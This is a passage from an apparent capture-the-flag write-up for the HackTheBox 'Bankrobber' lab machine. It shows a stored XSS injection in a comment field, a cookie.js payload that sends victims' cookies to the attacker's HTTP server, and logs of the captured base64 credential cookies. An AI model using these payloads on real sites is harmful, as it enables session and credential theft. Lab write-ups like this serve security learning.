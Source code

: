 Let's try alter the content of `comment`, and we will know the id=3, notice id 1 and id 2 may be already existed. And the username and password are found to be base64 encoded cookies.

I’ll test XSS in the comment field, and start my Python http server. I’ll start simple, with a couple tags to see if they connect back to me:

```bash
python3 -m http.server 80
```

```
<img src="10.10.14.5/test.jpg" /> <script src="http://10.10.14.5/test.js"></script>
```

![[Bankrobber-06.png]]

![[Bankrobber-07.png]]

Perfect. It’s a bit off that the server is allowing plain script injection, but somehow isn’t loading images (hence the request for `test.js` and not `test.jpg`), but that is more likely an imperfection in the box author’s automation.

# Exploitation
## XSS attack
### cookie.js script

I’ll write a `cookie.js` with the following Javascript:

```js
var request = new XMLHttpRequest();
request.open('GET', 'http://10.10.14.5/?test='+document.cookie, true);
request.send()
```

Now I’ll submit again, this time with `cookie.js` in the `src`. Some number of submits and some minutes later:

```
<img src="10.10.14.5/test.jpg" /> <script src="http://10.10.14.5/cookie.js"></script>
```

![[Bankrobber-08.png]]

![[Bankrobber-09.png]]

```bash
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Bankrobber]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.154 - - [15/Sep/2022 16:20:39] "GET /cookie.js HTTP/1.1" 200 -
10.10.10.154 - - [15/Sep/2022 16:20:39] "GET /?test=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1" 200 -
10.10.10.154 - - [15/Sep/2022 16:22:07] "GET /cookie.js HTTP/1.1" 200 -

```
As I’ve seen that the cookies hold the username and password, I decode them (`%3D` will be `=`):
